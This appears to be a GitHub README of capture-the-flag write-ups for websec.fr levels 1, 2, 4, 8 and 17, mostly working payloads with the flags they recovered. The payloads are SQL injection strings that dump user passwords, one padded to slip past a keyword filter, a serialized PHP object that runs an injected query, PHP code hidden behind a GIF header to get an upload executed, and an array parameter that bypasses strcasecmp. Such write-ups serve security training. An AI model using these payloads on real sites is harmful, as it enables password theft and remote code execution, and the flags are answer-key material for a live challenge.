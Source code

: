 # Websec.fr-Writeups

## Level 1

```sql
0 union select id,password from users; --
```

```
WEBSEC{Simple_SQLite_Injection}
```

## Level 2

```sql
0 ununionion selselectect id,password frfromom users; --
```

```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```

## Level 4

```php
$s = new SQL();
$s->SQL_query('select password as username from users;');
echo base64_encode(serialize(array("ip" => "109.186.77.58", "exploit" => $s)));

// a:2:{s:2:"ip";s:13:"109.186.77.58";s:7:"exploit";O:3:"SQL":2:{s:5:"query";s:39:"select password as username from users;";s:4:"conn";N;}}

// YToyOntzOjI6ImlwIjtzOjEzOiIxMDkuMTg2Ljc3LjU4IjtzOjc6ImV4cGxvaXQiO086MzoiU1FMIjoyOntzOjU6InF1ZXJ5IjtzOjM5OiJzZWxlY3QgcGFzc3dvcmQgYXMgdXNlcm5hbWUgZnJvbSB1c2VyczsiO3M6NDoiY29ubiI7Tjt9fQ==
```

```
WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```

## Level 8

PHP Injected in GIF

```php
GIF89a;

<?php
print_r(scandir("."));
?>
```

```php
GIF89a;

<?php
echo file_get_contents('flag.txt');
?>
```

```
WEBSEC{BypassingImageChecksToRCE}
```

## Level 17

Bypass strcasecmp by providing array instead of string

```yaml
"body": "flag[]=blabla&submit=Go"
```

```
WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}
```
